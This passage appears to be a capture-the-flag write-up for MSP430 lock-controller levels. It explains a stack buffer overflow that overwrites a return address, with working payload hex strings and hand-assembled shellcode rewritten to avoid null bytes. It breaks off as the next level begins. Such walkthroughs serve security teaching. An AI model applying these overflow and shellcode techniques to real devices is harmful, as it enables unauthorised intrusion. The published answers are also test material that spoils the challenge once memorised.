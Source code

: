 ```
procedure would be:

* Fill the buffer with as many As as possible (0x30 is the limit).

* Break on the ret instruction of the function in which the As were
  placed in memory (address 0x4548).

* See which As are going to be placed into PC (the ones after the
  first 16 As).

* Replace those with the address of the code we'd like to return to.

In this case, there is no `unlock_door` function to return to.
However, there is the call to the `INT` function that we can return
to.  And since we can write to the stack, we can simulate that the
value `7f` was pushed onto the stack just before this call.  Thus we
will go for a buffer of the form:

```{16 bytes of padding}{Address of call INT (e.g. 4460)}{007f}```

Thus:

```aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa60447f00```

### Alternative: 

Worth mentioning also is that, if we wanted a shorter input, we could place the assembled code:

```
3012 7f00   push 0x7f
b012 4c45   call INT
```

And then use the address of the start of the input (0x43ee) as the return address:

```{code to unlock door}{padding to length 16}{43ee}```

Or:

```30127f00b0124c45aaaaaaaaaaaaaaaaee43```

The problem is that this assembled code has a null byte, so we need to modify it so that it doesn't.  For example: 

```
mov #0x7f01,r15
dec r15
swpb r15
push r15
call #0x454c
```

```3f40017f1f838f100f12b0124c45```

For a final answer of:

``` 3f40017f1f838f100f12b0124c45aaaaee43 ```


## 12. Jakarta

The username and password are measured and the sum of their lengths
ends up in r15.  Then, the following instruction is used to check that
the total length is at most 32:

```